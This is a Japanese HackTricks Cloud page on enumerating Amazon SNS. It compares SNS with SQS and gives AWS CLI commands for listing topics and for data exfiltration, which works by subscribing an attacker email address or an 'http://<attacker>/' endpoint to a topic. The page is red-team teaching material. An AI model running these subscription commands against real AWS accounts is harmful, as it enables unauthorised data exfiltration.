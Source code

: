 # AWS - SNS Enum

<details>

<summary><strong>ゼロからヒーローまでのAWSハッキングを学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)**に参加するか、[telegramグループ](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローする**
* **ハッキングトリックを共有するために、[HackTricks](https://github.com/carlospolop/hacktricks)と[HackTricks Cloud](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出する**

</details>

## SNS

Amazon Simple Notification Service（Amazon SNS）は、**完全に管理されたメッセージングサービス**として説明されています。**アプリケーション間**（A2A）および**アプリケーション対人**（A2P）の両方の通信タイプをサポートしています。

A2A通信の主な機能には**パブリッシュ/サブスクライブ（pub/sub）メカニズム**があります。これらのメカニズムは、**トピック**を導入し、**高スループット、プッシュベース、多対多メッセージング**を可能にするために重要です。この機能は、分散システム、マイクロサービス、およびイベント駆動型サーバーレスアーキテクチャを含むシナリオで非常に有利です。これらのトピックを活用することで、パブリッシャーシステムは効率的にメッセージを**幅広いサブスクライバーシステム**に配信し、ファンアウトメッセージングパターンを容易にします。

### **SQSとの違い**

**SQS**は**キューベース**のサービスであり、**ポイントツーポイント通信**を可能にし、メッセージが**単一のコンシューマ**によって処理されることを保証します。**少なくとも一度の配信**を提供し、標準キューとFIFOキューをサポートし、リトライや遅延処理のためのメッセージ保持を許可します。\
一方、**SNS**は**パブリッシュ/サブスクライブベースのサービス**であり、**一対多**の通信を可能にし、メッセージを**複数のサブスクライバー**に同時にブロードキャストします。**メール、SMS、Lambda関数、HTTP/HTTPS**などのさまざまなサブスクリプションエンドポイントをサポートし、ターゲットメッセージ配信のためのフィルタリングメカニズムを提供します。\
両方のサービスは分散システムのコンポーネント間の切り離しを可能にしますが、SQSはキュー通信に焦点を当て、SNSはイベント駆動型のファンアウト通信パターンに重点を置いています。

### **列挙**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
**トピックがFIFOタイプの場合**、**SQS**プロトコルを使用するサブスクライバーのみ使用できます（HTTPまたはHTTPSは使用できません）。

また、`--topic-arn`にリージョンが含まれていても、**`--region`** で正しいリージョンを指定してください。そうしないと、アクセス権限がないというエラーが表示されますが、問題はリージョンにある可能性があります。
{% endhint %}

#### 認証されていないアクセス

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### 特権昇格

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### 攻撃後の処理

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### 永続性

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## 参考文献

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>を使って、ゼロからヒーローまでAWSハッキングを学びましょう</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksで企業を宣伝したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)コレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)を**フォロー**する
* **HackTricks**と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出して、あなたのハッキングテクニックを共有する

</details>
